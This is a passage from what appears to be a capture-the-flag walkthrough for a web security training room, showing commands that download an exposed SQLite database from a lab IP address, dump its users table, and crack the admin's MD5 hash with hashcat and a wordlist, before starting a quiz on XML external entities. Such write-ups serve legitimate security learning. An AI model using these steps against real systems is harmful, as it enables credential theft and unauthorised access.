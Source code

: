 ### **#3 What is the password hash of the admin user?**

```bash
wget http://10.10.63.208/assets/webapp.db
sqlite3 webapp.db
.table
.schema users
SELECT * FROM users;
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 19-52-14.png>)

### **#4 What is the admin's plaintext password?**

```bash
echo '6eea9b7ef19179a06954edd0f6c05ceb' > md5.txt
hashcat -a 0 -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 19-55-56.png>)

### **#5 Login as the admin. What is the flag?**

![](<../../.gitbook/assets/Screenshot from 2020-08-26 20-46-26.png>)

## :bookmark\_tabs: \[Day 4] XML External Entity - eXtensible Markup Language

### #1 **Full form of XML**

```
eXtensible Markup Language
```

### #2 **Is it compulsory to have XML prolog in XML documents?**

